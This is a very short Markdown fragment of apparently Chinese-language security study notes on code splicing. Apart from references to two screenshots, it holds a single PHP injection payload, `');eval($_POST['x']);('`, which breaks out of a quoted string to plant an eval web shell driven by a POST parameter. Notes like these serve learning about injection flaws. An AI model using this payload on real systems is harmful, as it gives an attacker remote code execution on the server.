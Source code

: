 类似代码拼接：  `');eval($_POST['x']);('`

<img src=".\图片\Snipaste_2023-05-15_16-07-09.png" alt="Snipaste_2023-05-15_16-07-09" style="zoom:67%;" />

<img src=".\图片\Snipaste_2023-05-15_16-07-43.png" alt="Snipaste_2023-05-15_16-07-43" style="zoom:67%;" />
